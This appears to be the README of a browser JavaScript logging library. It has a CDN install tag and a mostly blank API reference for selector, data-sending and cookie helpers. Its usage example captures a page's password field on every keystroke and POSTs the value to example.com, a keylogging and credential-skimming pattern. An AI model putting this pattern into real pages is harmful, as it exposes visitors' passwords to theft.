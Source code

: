 <p align="center">
  <img src="demo/demo.png" />
</p>

<h1 align="center">EmigaLogger for Browsers</h1>

<div align="center">
EmigaLogger combines several modules to send a valuable client-side information to the database
</div>

## Install
```html
<script type="text/javascript" src="https://cdn.jsdelivr.net/gh/eminmuhammadi/EmigaLogger@master/dist/EmigaLogger.min.js"></script>
```

## Usage
```js
const Logger   = new EmigaLogger();
const Data     = new EmigaData();
const Selector = new EmigaSelector();

const Password = Selector.Select('input[name=password]');
Logger.Log(Password,'keydown',()=>{
    Data.Send('https://example.com',{
        method: 'POST',
        body: JSON.stringify({
           password: Selector.Value(Password)
        }) 
    });
});
```
For examples  [./demo/](demo)
- `button`  [./demo/button.html](demo/button.html)
- `example` [./demo/example.html](demo/example.html)
- `form`    [./demo/form.html](demo/form.html)
- `input`   [./demo/input.html](demo/input.html)

## API Reference
### new EmigaLogger()
#### EmigaLogger().Log(query,state,callback)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
| state     |      	|         	|             	|
| callback  |      	|         	|             	|

#### EmigaLogger.Call(callback)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| callback  |      	|         	|             	|

### new EmigaSelector()
#### EmigaSelector().Select(query)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|

#### EmigaSelector().Submit(query)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|

#### EmigaSelector().Value(query)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|

#### EmigaSelector().Text(query)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|

### new EmigaData()
#### EmigaData().Serialize(form)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| form      |      	|         	|             	|

#### EmigaData().Send(url,options)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| url       |      	|         	|             	|
| options.method         |      	|    `GET`,`POST`,`PUT`,`HEAD`,`DELETE`,`PATCH`,`OPTIONS` |             	|
| options.mode           |      	|   `no-cors`, `cors`, `same-origin`  |             	|
| options.cache          |      	|  `Value`, `no-cache`, `reload`, `force-cache`, `only-if-cached` |             	|
| options.credentials    |      	| `include`, `same-origin`, `omit`        	|             	|
| options.headers        |      	|         	|             	|
| options.redirect       |      	|  `manual`, `follow`, `error` |             	|
| options.referrerPolicy |      	|  `no-referrer`, `client` |             	|
| options.body           |      	|         	|             	|

### new EmigaToken()
#### EmigaToken().uuid()
### new EmigaCookies()
#### EmigaCookies().Get(name)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|

#### EmigaCookies().Set(name,value,options)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|
| value     |      	|         	|             	|
| options.expires   |      	|         	|             	|
| options.path      |      	|   `/` (default)  	|             	|
| options.domain    |      	|         	|             	|
| options.secure    |      	|   `true`, `false`      	|             	|
| options.sameSite  |      	|    `lax`, `strict`     	|             	|

#### EmigaCookie().Delete(name)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|

#### EmigaCookie().Cookie(name,value,days)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	| `X-UUID` (default)  |             	|
| value     |      	|           |             	|
| days     |      	|  `1`  (default)    |             	|

### new EmigaInit(event)
